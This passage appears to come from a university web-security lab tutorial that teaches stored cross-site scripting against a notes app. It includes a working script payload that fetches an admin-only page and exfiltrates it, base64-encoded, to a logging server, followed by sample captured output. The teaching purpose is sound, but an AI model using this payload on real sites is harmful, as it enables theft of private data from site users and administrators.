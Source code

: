 So and then what…?

1. We can store a piece of JS code
2. We can make the admin visit the page and thereby execute the code
3. We can likely read some secret, receive the text from the response and
4. ?

We need a hacker server to send our data to! Luckily, we provide you with a logging system. Click the link in the top bar that says “view your logs”.

This is a unique site for you to use for this challenge. You can see that it has a complicated url and nobody else can access it because it it linked to your account. The only thing this site does is log all the requests that it receives. Go ahead and try to reload the page a few times, you will see that the reloads are logged (and the browser may try to request a /favicon.ico in the background, which is the icon displayed in the browser tab).

This is great news, because you can use this server to exfiltrate data. We just have to make our exploit send a request to this url with the data, for instance:

```html
<script>
fetch("/very-secret-and-unknown-admin-page")
    .then(r => r.text())
    .then(t => {
        fetch("https://log-<q-number>-<unique-hash>-0xa1.labs.dss.edu.distrinet-research.be/log?data="+btoa(t))
    })
</script>
```
Now we’re talking. When the first response comes in, we just take that data, base64-encode it with the btoa function (simply because base64 is safe to use in url’s and the full content of a HTML page might not be and generate unwanted errors).

Let’s try to submit this as a note.

### Step 3

If you view your note and then reload the logs, you can see a long request came in:

    /log?data=PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI ... <its-quite-long>

After the `data=` you find the base64-encoded data. You can easily use some tool like [cyberchef](https://gchq.github.io/CyberChef/) (or python if you want to) to decode it back to human-readable ascii. The above just decodes to the homepage of your own user.

Of course! Because you are not an admin, you will be redirect when you try to load the admin-only page. We still have to send the note to the admin. Click the red button!


<div class="danger">
  {{ "**important:** This is likely the most tricky part of an attack. You have to wait until the admin visits the page, which should not take very long but can take maybe 10 seconds. If something goes wrong on the admin side, you will never know, which is why it’s good to always verify as much as possible that the attack functions properly in your own browser if this is possible." | markdownify }}
</div>
